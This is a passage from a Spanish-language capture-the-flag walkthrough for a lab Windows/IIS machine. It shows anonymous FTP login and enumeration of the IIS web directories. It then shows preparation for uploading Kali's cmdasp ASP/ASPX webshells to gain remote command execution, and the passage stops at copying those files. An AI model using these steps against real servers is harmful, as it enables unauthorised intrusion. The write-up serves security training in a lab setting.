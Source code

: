 ### FTP Enumeration

Como hay un `IIS` al conectarnos por `FTP` podemos ver las `rutas` del `IIS`, por lo tanto si podemos `subir` un `archivo` con extensión `.asp` o `.aspx` probablemente obtengamos `ejecución remota de comandos`

```
# ftp 10.129.155.162
Connected to 10.129.155.162.
220 Microsoft FTP Service
Name (10.129.155.162:justice-reaper): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -a
229 Entering Extended Passive Mode (|||49176|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> cd aspnet_client
250 CWD command successful.
ftp> ls -a
229 Entering Extended Passive Mode (|||49178|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          system_web
226 Transfer complete.
ftp> cd system_web
250 CWD command successful.
ftp> ls -a
229 Entering Extended Passive Mode (|||49180|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          2_0_50727
226 Transfer complete.
ftp> cd 2_0_50727
250 CWD command successful.
ftp> ls -a
229 Entering Extended Passive Mode (|||49182|)
125 Data connection already open; Transfer starting.
226 Transfer complete.
```

## Abusing FTP

Localizamos `cmdasp` y `copiamos` estos `archivos` en nuestro `directorio actual` de trabajo desde el cual nos vamos a `conectar` por `FTP`

```
# locate cmdasp              
/usr/share/webshells/asp/cmdasp.asp
/usr/share/webshells/aspx/cmdasp.aspx

# cp /usr/share/webshells/asp/cmdasp.asp .
# cp /usr/share/webshells/aspx/cmdasp.aspx .
```
